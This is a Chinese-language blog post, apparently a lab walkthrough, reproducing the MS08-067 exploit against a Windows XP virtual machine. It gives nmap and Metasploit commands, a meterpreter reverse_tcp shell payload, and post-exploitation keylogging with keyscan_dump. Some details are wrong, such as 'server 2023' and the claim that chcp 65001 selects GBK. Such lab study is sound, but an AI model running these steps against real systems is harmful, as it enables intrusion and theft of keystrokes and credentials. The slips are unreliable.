


## 前言

本文纯属于“照虎画猫”

体验一下经典漏洞的复现过程

对测试过程进行简单的了解

## MS08-067简介

**MS08-067漏洞全称是“Windows Server服务RPC请求缓冲区溢出漏洞”，攻击者利用受害者主机默认开放的SMB服务端口445，发送特殊RPC（Remote Procedure Call，远程过程调用）请求，造成栈缓冲区内存错误，从而被利用实施远程代码执行。**

这个漏洞可以影响Windows 2000、XP、 server 2023等系统

这里就用XP这个经典系统来进行测试

## 环境搭建

### 所需环境：

- 攻击机：Kali linux 2022

- 靶机：Windows XP Professional SP3


这里我看有的博客上写的是 Windows XP Home版（家庭版）

但是经过测试，似乎并不能成功执行漏洞，于是这里我换了一个专业版的XP


在迅雷里面下好，然后装进VMware workstation里

### 网络环境：

要将两个虚拟机能够互相联通

也就是能Ping通

首先就要让虚拟机能够联网

我是把两台机子都用桥接模式，接到了外部的同一个WIFI上

XP系统查看自己的ip地址👇



然后在Kali里面查看ip👇


可以看到XP的ip是：192.168.101.28

而Kali的ip是：192.168.101.22

只有最后一段不同，说明两个虚拟机是处于同一局域网下（同一子网

可以进行互相通信

接下来试试ping


可以看到，在XP系统中是能够ping通Kali的

在Kali中有可能ping不通XP

只需将XP的防火墙和自动更新关闭，即可

### 所需工具：

**NMAP**

nmap是一款非常强大的主机发现和端口扫描工具，又名诸神之眼（名字感觉就很牛

能发现目标IP段的存活主机和开放的端口

一般用来初步收集信息

**Metasploit**

Metasploit是一款开源安全漏洞检测工具，附带数百个已知的软件漏洞，并且提供了整合的利用代码

被安全社区冠以“可以黑掉整个宇宙”之名的强大渗透测试框架

这两个工具在Kali系统里面都自带有，所以不必再去下载

## 测试

这里就模拟一下什么都不知道的情况

首先用Nmap扫描目标网段

查看局域网内存活的主机

```
nmap -F 192.168.101.0/24
```

在Nmap中有多种模式可选，这里用 -F 是快速扫描，其余有很多可选项比如说：-A （aggressive 攻击模式

这里的具体含义是扫描 192.168.101.0 到192.168.101.255 之间所有存活的机子以及开放的端口


在这里我们扫描到了 XP的 ip

也可以尝试使用 -O 的选项来获取具体信息

```
nmap -O 192.168.101.0/24
```


可以看到Nmap已经识别到了这个机子是XP，而且给出了估计的XP版本是sp2或者sp3

（我的XP机子就是sp3版本的

而且查看到其445端口是处于开放状态

能够尝试利用ms08-067漏洞

首先进入Metasploit的工作状态，运行下面的命令（要在root权限下

```
msfconsole
```

然后

```
search ms08-067
```


在库里面有这个漏洞的利用代码，编号为0，这里用：use 0 就可以了

然后查看攻击的选项，（show options）看哪些没有填的，我们要填上


可以看到

RHOSTS（即remote hosts，我们要攻击的ip）和exploit target是没有选择的

这里我们要选上

```
set rhost 192.168.101.28
```

然后target的类型要进行选择，这个是选择目标机器的版本号，用show targets查看目录


第34号是我们目标机器的型号，把target设置成34即可

```
set target 34
```

然后就是我们要进行攻击的方式，即payload

一般来说常见的就是反转TCP获得shell权限

这里payload这样设置，当然也可以查看payload目录，看其他的能不能用

```
set payload windows/meterpreter/reverse_tcp
```

设置完后应该是这样的👇


然后我们输入 run 或者 exploit 进行攻击

如果出现下面这样，那就说明攻击成功了


注意，这个session一定要是open状态才算成功获取shell，不然就只是完成了一次攻击，但是攻击无效

之前我就是用的 SP3 Home版的XP，死活都联不通

这里要注意的是

- XP上的防火墙、自动更新要关闭

- 打开services.msc（资源管理器），保证Computer browser、server、workstation这三个选项的启动

- 打开gpedit.msc(组策略)，如下图设置


然后就来试试拿到shell后能干什么吧

先输入一个问号？

metasploit已经将一些命令进行整合打包，变成选项了

这里有个比较有意思的 webcam


顾名思义，能拿到电脑外接摄像头的权限

当然我这个虚拟机没有摄像头

那看看另外一个


其中开启 keyscan\_start 就可以监听XP系统上的键盘

这里实验一下

由于要储存键入的东西，所以需要一段内存空间

所以用 ps 命令查看一下XP里的所有进程


这里我们将键盘输入的东西都存储到id为1552这个进程，explorer.exe相当于桌面

```
migrate 1552
```

首先

```
keyscan_start
```

然后进入XP机，创建一个记事本写点东西吧



然后回到Kali

```
keyscan_dump
```


可以看到，只要是键盘上按过的，都能被记录下来反弹

如果是在登录自己的账号时，就可能被记录下来

当然，这是一个相当强大的工具，能利用的远远不止这些

比如说我们输入shell，进入windows的命令行

我们删除刚刚创建的那个文本文件，这里为了方便，重命名为 1


注意XP里有中文在这里会乱码，应该是编码的问题

只需要输入 chcp 65001 ，就能将字符集改为GBK简体中文，不会乱码了

有了shell权限，就基本上所有事都能做😀

## 漏洞成因

这个就有点超出能力范围了

我也解释不太清楚

只能看看大佬的文章

[MS08\_067漏洞学习研究 - 燃烧少年的心 - 博客园 (cnblogs.com)](https://www.cnblogs.com/justforfun12/p/5239941.html)

[Windows漏洞：MS08-067远程代码执行漏洞复现及深度防御 - 华为云开发者联盟 - 博客园 (cnblogs.com)](https://www.cnblogs.com/huaweiyun/p/15559938.html)

[MS08-067漏洞原理及详尽分析过程 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/203881.html)

## 结语

上述测试环节中

有一些匪夷所思的环节

比如说关闭防火墙，开启什么什么服务等等

看似比较繁琐

其实ms08-067最初是在2008年出现

那时候还没有针对这个漏洞的补丁

所以当时来说应该是不需要这么繁琐的🤔

这篇文章也只是简单的复现一下漏洞的利用过程

之后会开辟一个新的分类来专门收录这些漏洞的学习和利用

现在，windows XP的比例还是占有1.26%左右，大约有2520万台电脑上还是XP系统

就算想利用这个漏洞搞点动作，大部分的XP应该也是打过这个补丁的

但是也不提倡在现实中进行漏洞攻击

毕竟容易被蜀黍请去喝茶😰

还是老实地在虚拟机里学习吧


